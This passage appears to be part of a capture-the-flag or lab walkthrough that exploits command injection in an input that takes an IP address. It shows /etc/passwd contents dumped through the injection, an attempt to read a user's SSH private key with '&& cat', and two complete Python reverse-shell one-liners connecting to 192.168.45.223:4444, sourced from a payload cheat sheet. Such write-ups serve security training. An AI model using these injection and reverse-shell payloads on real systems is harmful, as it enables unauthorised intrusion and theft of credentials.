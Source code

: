 backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin

systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin

syslog:x:102:106::/home/syslog:/usr/sbin/nologin

messagebus:x:103:107::/nonexistent:/usr/sbin/nologin

_apt:x:104:65534::/nonexistent:/usr/sbin/nologin

lxd:x:105:65534::/var/lib/lxd/:/bin/false

uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin

dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin

landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin

sshd:x:109:65534::/run/sshd:/usr/sbin/nologin

pollinate:x:110:1::/var/cache/pollinate:/bin/false

dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash

  

etc/shadow doesn't return anything

  

Maybe the ssh key for dylan

127.0.0.1 && cat /home/dylan/.ssh/id_rsa

Nope. Maybe a python reverse shell. 

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("192.168.45.223",4444));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'

Nope. Maybe another one

  

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.223",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Nope. To confirm the connection

  

127.0.0.1; whoami
